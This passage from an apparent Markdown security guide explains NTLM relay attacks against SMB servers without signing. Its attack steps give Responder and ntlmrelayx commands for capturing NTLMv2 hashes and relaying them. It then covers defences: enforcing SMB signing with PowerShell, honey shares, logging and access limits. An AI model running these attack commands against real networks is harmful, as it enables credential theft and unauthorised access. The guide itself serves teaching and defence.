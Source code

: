 ### **Legend:**

✅ **SMB signing is required**

❌ **SMB signing is not required**

❌* **SMB signing is only mandated for SYSVOL and NETLOGON shares** (which contain **Group Policy Objects (GPOs) and logon scripts**).

## **6.2 Attack**

### **📝 Step 1:  SMB Clients Sending NTLM Hashes**

✅ Use **Responder** to capture NTLM authentication requests.

```bash
responder -I eth0 -v
```

- The target system will **send NTLMv2 hashes** when trying to authenticate.

---

### **📡 Step 2: Relay NTLM Authentication to SMB**

✅ Use **impacket’s ntlmrelayx** to relay NTLM authentication to another vulnerable system:

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

- `targets.txt` contains **SMB servers without signing enabled**.
- If successful, this grants **authenticated access** to the target.

## **6.3🛡️ Defending Against NTLM Relay via SMB**

### **🛡️ 1️⃣ Block SMB Exploitation by Enforcing SMB Signing**

SMB Signing prevents **NTLM relay attacks**.

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
```

✅ **Prevents attackers from relaying SMB credentials**.

---

[](data:image/gif;base64,R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==)

💡 **Suggestions:**

- **Use Honey SMB** : Set up a fake, monitored SMB share that triggers alerts on access.
- **Disable SMB Server :** If SMB is not required, disable the SMB service to reduce attack surfaces.
- **Enable SMB Logging**: Configure auditing to track access attempts.
- **Use Strong Authentication**: Enforce NTLMv2 or Kerberos for secure authentication.
- **Restrict SMB Access**: Limit access to trusted IPs or subnets.
- **Monitor for Anomalous Traffic**: Use SIEM tools to detect unusual SMB activity.
